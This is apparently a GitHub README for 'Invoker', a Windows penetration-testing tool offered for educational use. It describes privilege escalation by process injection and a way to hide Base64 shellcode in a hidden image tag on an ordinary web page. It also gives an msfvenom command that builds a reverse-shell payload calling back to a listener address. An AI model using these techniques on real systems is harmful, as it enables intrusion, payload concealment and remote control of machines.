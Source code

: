 # Invoker

Penetration testing utility.

**The goal is to use this tool when access to some Windows OS features through GUI is restricted.**

Capabilities:

* invoke the Command Prompt and PowerShell,
* connect to a remote host,
* schedule a task,
* download a file,
* add a registry key,
* terminate a running process,
* inject bytecode into a running process.

Built with Dev-C++ IDE v5.11 (64 bit), compiled with TDM-GCC v4.9.2 (64 bit) and tested on Windows 10 Enterprise OS (64 bit). Download Dev-C++ from [here](https://sourceforge.net/projects/orwelldevcpp/files/Portable%20Releases/).

Made for educational purposes. I hope it will help!

## How to Run

Run ['\\exec\\Invoker.exe'](https://github.com/ivan-sincek/invoker/tree/master/exec).

## Bytecode Injection

Elevate privileges by injecting bytecode into a higher-privileged process.

This tool will parse any HTTP response received and look for the custom image element `<img class="bc" src="data:image/gif;base64,encoded" alt="bc" hidden="hidden">` where `encoded` is a binary code/file encoded in Base64.

With this you can hide your bytecode inside any legitimate web page in plain sight but you must strictly follow this format/rule.

You can also make your own custom element but don't forget to modify the existing HTTP response parsing inside the program source code and recompile it.

Check an example at [pastebin.com/raw/Nd1tCBv6](https://pastebin.com/raw/Nd1tCBv6).

**Bytecode provided will most certainly not work for you.**

Bytecode was generated on Kali Linux v2019.4 (64 bit) with the following MSFvenom command (modify it to your need):

```fundamental
msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt
```

Bytecode might not work on the first try due to some other bad characters.

## PowerShell Scripts

Check all the PowerShell scripts used in the main C++ program [here](https://github.com/ivan-sincek/invoker/tree/master/ps).

## Images

![Invoker](https://github.com/ivan-sincek/invoker/blob/master/img/invoker.jpg)

![Injection](https://github.com/ivan-sincek/invoker/blob/master/img/injection.jpg)

![Process List](https://github.com/ivan-sincek/invoker/blob/master/img/process_list.jpg)

![Shell](https://github.com/ivan-sincek/invoker/blob/master/img/shell.jpg)
